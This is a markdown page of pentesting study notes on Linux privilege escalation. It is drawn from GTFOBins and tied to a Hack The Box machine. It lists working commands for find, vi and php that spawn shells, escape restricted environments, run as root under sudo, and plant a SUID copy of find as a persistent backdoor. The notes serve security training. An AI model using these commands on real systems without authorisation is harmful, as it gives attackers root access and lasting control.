 ```yaml
---
title: Suid Binaries
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege escalation
  - linux
---
```


# Suid binaries

Resources: [https://gtfobins.github.io/](https://gtfobins.github.io/) contains a list of commands and how they can be exploited through "sudo". 

Equivalent to suid binaries in Windows would be: [LOLBAS](https://lolbas-project.github.io/)


## Most used (by me)

### find

#### Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
find . -exec /bin/sh \; -quit
```

#### SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```bash
sudo install -m =xs $(which find) .

./find . -exec /bin/sh -p \; -quit
```

#### Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo find . -exec /bin/sh \; -quit
```

### vi

#### Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
#one way
vi -c ':!/bin/sh' /dev/null

# another way
vi
:set shell=/bin/sh
:shell
```
Used at [HTB machine Vaccine](htb-vaccine.md).


#### Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo vi -c ':!/bin/sh' /dev/null
```

### php

#### Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

- ```
    CMD="/bin/sh"
    sudo php -r "system('$CMD');"
    ```